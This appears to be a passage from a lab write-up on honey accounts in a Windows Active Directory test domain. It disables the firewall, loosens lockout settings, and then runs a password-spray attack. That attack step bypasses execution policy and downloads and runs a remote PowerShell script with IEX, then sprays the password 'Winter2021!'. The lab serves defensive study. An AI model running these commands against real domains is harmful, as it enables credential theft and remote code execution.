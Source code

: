 ![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206005015576.png)

Disable the firewall too.

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206005037881.png)

Next, set the domain password policy.

```powershell
Set-ADDefaultDomainPasswordPolicy -Identity doazlab.com -LockoutDuration 00:40:00 -LockoutObservationWindow 00:20:00 -LockoutThreshold 50 -ComplexityEnabled $True -ReversibleEncryptionEnabled $False -MaxPasswordAge 180.00:00:00 -MinPasswordAge 1.00:00:00 -MinPasswordLength 10
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231206005059018.png)

# Attack: DomainPassword Spray
This is the easiest to use password spray tool ever built. Three commands, assuming you are in a PowerShell session with domain context.

This tool is intended to be invoked from the workstation.

```powershell
gpupdate /force
Set-ExecutionPolicy Bypass -Force
IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/DefensiveOrigins/DomainPasswordSpray/master/DomainPasswordSpray.ps1')
Invoke-DomainPasswordSpray -Password "Winter2021!" -Force
```
